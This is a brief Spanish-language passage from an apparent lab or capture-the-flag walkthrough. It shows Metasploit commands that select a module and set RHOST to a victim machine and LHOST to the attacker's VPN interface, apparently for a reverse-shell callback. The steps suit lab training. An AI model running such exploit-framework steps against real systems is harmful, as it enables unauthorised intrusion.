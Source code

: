 ![](img/Pasted%20image%2020240818221425.png)

Uso el módulo encontrado
```
use 0
```
![](img/Pasted%20image%2020240818221506.png)

Veo las opciones
```
show options
```

Cambio las opciones que necesito, como el RHOST que es la dirección de la máquina victima, y reviso el LHOST comprobando que sea la misma que la interfaz de red `tun0`, en este caso tengo que cambiarla, y reviso las opciones.
```
set RHOST 10.10.65.129
set LHOST 10.2.37.7
show options
```
![](img/Pasted%20image%2020240818221923.png)
